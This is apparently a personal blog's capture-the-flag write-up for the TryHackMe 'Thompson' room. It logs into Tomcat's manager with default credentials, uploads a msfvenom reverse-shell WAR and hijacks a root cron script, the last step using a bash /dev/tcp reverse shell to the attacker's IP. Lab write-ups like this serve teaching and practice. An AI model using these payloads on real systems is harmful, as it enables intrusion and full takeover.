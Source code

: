 ```yaml
---
layout: default
title : bvr0n - mindgames Write-up
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Sept 30, 2020**_

[Thompson](https://tryhackme.com/room/bsidesgtthompson) Writeup

## Nmap Scan :

```
kali@kali:~$ nmap -sC -sV 10.10.218.79
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Gobuster Scan :

```
/docs (Status: 302)
/examples (Status: 302)
/favicon.ico (Status: 200)
/host-manager (Status: 302)
/manager (Status: 302)
```

Checking the `/manager` with the default creds of user : `tomcat` & passwd : `s3cret` we get access.

Since we are logged in, we can create a `.WAR` payload using msfvenom and get a reverse connection.

```
kali@kali:~$ msfvenom -p java/shell_reverse_tcp lhost=10.8.14.157 lport=9991 -f war -o pwn.war
Payload size: 13402 bytes
Final size of war file: 13402 bytes
Saved as: pwn.war
```

## 1st Privilege Escalation :

I noticed that the id.sh is executed by bash every minute, so let's abuse it :

```
*  *    * * *   root    cd /home/jack && bash id.sh
```
```
tomcat@ubuntu:/home/jack$ echo "cat /root/root.txt > test.txt" > id.sh
tomcat@ubuntu:/home/jack$ cat test.txt
tomcat@ubuntu:/home/jack$ d89d*************************a3a
```

## 2nd Privilege Escalation :

```
tomcat@ubuntu:/home/jack$ echo "bash -i >& /dev/tcp/10.8.14.157/8080 0>&1" > id.sh
```
```
kali@kali:~$ nc -lnvp 8080
root@ubuntu:/home/jack# id
uid=0(root) gid=0(root) groups=0(root)
```

<br>
<br>
Best Regards

[bvr0n](https://github.com/bvr0n).

<br>
<br>

[back to main()](../../index.md)

<br>
